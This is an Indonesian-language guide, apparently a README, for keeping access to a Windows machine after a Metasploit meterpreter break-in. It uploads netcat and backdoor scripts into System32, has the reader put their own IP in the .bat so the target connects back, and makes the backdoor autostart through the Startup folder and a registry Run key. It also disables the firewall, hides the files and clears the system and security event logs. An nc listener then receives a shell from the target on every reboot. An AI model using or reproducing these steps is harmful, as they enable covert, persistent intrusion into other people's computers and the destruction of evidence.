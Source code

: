 
## Upload Semua Backdoor

Setelah berhasil masuk ke meterpreter dari Metasploit, upload semua backdoornya ke target mesin.

1. Backdoor `nc.exe`

   ```
   upload nc.exe C:\Windows\System32\nc.exe
   ```

2. Backdoor `backdoor.bat`

   > Pada backdoor `backdoor.bat` ubah IP Address nya sesuai dengan IP Address yang kamu punya.

   ```
   upload backdoor.bat C:\Windows\System32\backdoor.bat
   ```

3. Backdoor `backdoor.vbs`

   ```
   upload backdoor.vbs C:\Windows\System32\backdoor.vbs
   ```

## Salin Backdoor `backdoor.bat` ke Folder Startup

> Pada bagian ini sampai ke `Hapus Log`, di meterpreter metasploit ketikkan `shell` untuk masuk ke CMD target mesin.

```
copy C:\Windows\System32\backdoor.vbs "C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
```

Ganti `<USERNAME>` dengan nama user di target (cek dengan `whoami` kalau belum tahu).

## Tambahkan ke Registry

```
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Backdoor /t REG_SZ /d "C:\Windows\System32\backdoor.vbs" /f
```

## Matikan Firewall

```
netsh advfirewall set allprofiles state off
```

## Sembunyikan File

```
attrib +h C:\Windows\System32\nc.exe
attrib +h C:\Windows\System32\backdoor.bat
```

## Hapus Log

```
wevtutil cl system
wevtutil cl security
```

## Siapkan Listener

```
nc -lvp 4444
```

Saat sistem target dinyalakan atau direstart, akses CMD dari sistem target akan diperoleh secara otomatis.
